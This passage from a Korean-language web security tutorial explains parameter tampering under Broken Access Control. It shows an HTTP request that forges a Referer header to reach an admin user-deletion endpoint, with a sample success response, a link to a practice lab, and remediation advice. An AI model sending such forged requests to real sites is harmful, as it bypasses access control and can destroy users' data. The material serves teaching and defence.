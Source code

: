 ### 3. 파라미터 조작 (Parameter tampering) 
- 목적:파라미터 조작하여 권한 없는 리소스에 접근
- 공격 예시:
Referer를 통해 접근 제어를 하는 웹 서버의 경우 Referer 파라미터를 조작하여 높은 권한에 접근할 수 있다. 예를 들어,HTTP Request 헤더에 Referer 헤더에 admin URL을 포함시켜 마치 admin 권한이 요청하는 것처럼 위조할 수 있다.

**HTTP Request**
```
GET /admin/deleteUser HTTP/1.1
Host: redraccoon.kr
Referer: http://redraccoon.kr/admin
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: session=ABC123
Connection: close
```
**HTTP Response**
```
HTTP/1.1 200 OK
Date: Mon, 07 Jun 2024 12:05:00 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 200
Connection: close

<!DOCTYPE html>
<html>
<head>
  <title>Delete User</title>
</head>
<body>
  <h1>Delete User Page</h1>
  <p>User successfully deleted.</p>
</body>
</html>
```

파라미터 조작 관련 실전랩:
- BurpSuite Academy Referer Parameter Tampering:
https://portswigger.net/web-security/access-control/lab-referer-based-access-control


## Broken Access Control 수정 및 권고사항
1. URL 및 링크 보안: IDOR(IDOR 변조) 공격을 방지하기 위해 URL이나 링크를 통해 민감한 데이터나 기능에 접근할 수 있는 링크를 공개적으로 노출하지 않도록 주의가 필요하다. 또한, 파라미터의 값이나 웹 요청 내용을 검증하여 유효한 권한을 가진 사용자만이 접근할 수 있어야 한다. 

2. Session 토큰 및 Anti-CSRF 토큰 사용: Session 토큰과 Anti-CSRF 토큰을 사용하여 클라이언트 요청 변조를 미리 방지하여 접근 제어 공격을 차단한다. 

3. Security Header: Content Security Policy(CSP) 및 X-Content-Type-Options와 같은 Security Header를 사용하여 위조된 요청을 차단한다.
